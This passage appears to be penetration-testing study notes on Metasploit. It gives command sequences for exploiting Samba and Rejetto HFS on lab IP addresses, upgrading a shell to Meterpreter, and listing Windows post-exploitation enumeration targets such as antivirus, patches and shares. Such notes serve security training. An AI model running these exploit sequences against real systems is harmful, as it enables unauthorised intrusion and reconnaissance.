 #### Shell to Meterpreter

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a meterpreter
msf3> setg rhosts 192.81.201.3
msf6> db_nmap -sV -sS -O 192.81.201.3

msf6> use exploit/linux/samba/is_known_pipename
msf6> run

/bin/bash -i
# Ctrl+Z
```

Upgrade shell to meterpreter.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> setg lhost eth1
msf6> set session 1
msf6> run

msf6> sessions 2
```

You can do the same action with the command `sessions -u 1`.

```bash
meterpreter> sysinfo
```

### Windows post exploitation

#### Modules

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to :
  * Enumerate user privileges
  * Enumerate logged on users
  * VM check
  * Enumerate installed programs
  * Enumerate AVs
  * Enumerate computers connected to domain
  * Enumerate installed patches
  * Enumerate shares

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a windows_post
msf6> setg rhosts 10.3.28.69
msf6> db_nmap -sV 10.3.28.69

msf6> search rejetto
msf6> use windows/http/rejetto_hfs_exec
msf6> run

meterpreter> sysinfo
meterpreter> help
```
